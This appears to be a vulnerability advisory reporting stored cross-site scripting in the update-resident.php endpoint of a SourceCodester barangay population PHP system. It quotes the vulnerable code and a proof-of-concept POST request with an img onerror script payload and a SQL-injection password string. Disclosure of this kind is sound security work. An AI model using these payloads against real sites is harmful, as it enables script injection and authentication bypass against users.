 # SOURCECODESTER / Barangay Population System - update-resident.php STORED XSS

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://www.sourcecodester.com/php/17109/barangay-population-monitoring-system-using-php-mysql-and-chartjs-source-code.html

## Affected Component
> /endpoint/update-resident.php

## Code
```php
if (isset($_POST['full_name'], $_POST['address'], $_POST['contact_number'])) {
        $residentID = $_POST['tbl_resident_id'];
        $fullName = $_POST['full_name'];
        $address = $_POST['address'];
        $contactNumber = $_POST['contact_number'];

        try {
            $checkStmt = $conn->prepare("SELECT full_name FROM tbl_resident WHERE full_name = :full_name");
            $checkStmt->bindParam(":full_name", $fullName, PDO::PARAM_STR);
            $checkStmt->execute();
```

## Proof of Concept
**HTTP Request Example**
``` http request
POST /endpoint/update-resident.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 132

tbl_resident_id=1&full_name=%3e%3cimg%20src%3dx%20onerror%3dalert('NoChizPlZ')%3e&address=Purkok+1&contact_number=%28551%29+577-2147email=nochizplz%40nochizplz.com&password=nochizplz'+or+1%3d1+limit+1%23
```

## Screenshot
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/160950031/e212dfce-f382-4721-be0a-a8fe9bea6a24)
